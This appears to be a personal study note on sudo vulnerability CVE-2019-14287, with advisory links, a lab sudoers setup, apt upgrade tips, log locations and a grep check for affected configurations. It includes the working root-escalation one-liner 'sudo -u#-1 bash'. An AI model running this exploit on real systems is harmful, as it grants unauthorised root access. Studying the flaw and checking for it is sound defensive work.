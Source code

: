 # CVE

## MAIN

CVE - Common Vulnerabilities and Exposures

### CVE-2019-14287 sudo minus 1 uid

#### src

* [sudo.ws](https://www.sudo.ws/alerts/minus_1_uid.html)
* [CVE](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287)
* [launchpad.net/ubuntu](https://launchpad.net/ubuntu) -&gt; find package

#### Details

check `sudo` version `$ sudo -V`

`$ apt show sudo` -&gt; `http://www.sudo.ws/`

```bash
$ sudo adduser alexis
$ sudo visudo
# PAM file
alexis ALL=(ALL, !root) ALL

(alexis) $ sudo -u#-1 bash
```

How to downgrade a package?

How to upgrade only sudo pkg?

What is `$ sudo apt dist-upgrade` ?

Is there a way I can see all the versions that are in the archives that I have configured in `sources.list`. I can see the last version of each archive with `apt-get policy`, but how can I see them all?

```bash
$ apt list -a <pkg name>
```

{% hint style="info" %}
check what is `madison` ?
{% endhint %}

Where you can see the logs of `sudo` activity?

```bash
# Ubuntu
/var/log/auth.log 
```

Checking if your environment is affected:

```bash
$ cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
```

`\s` stands for whitespace character, matches a space, a tab, a line break etc.

\`\`




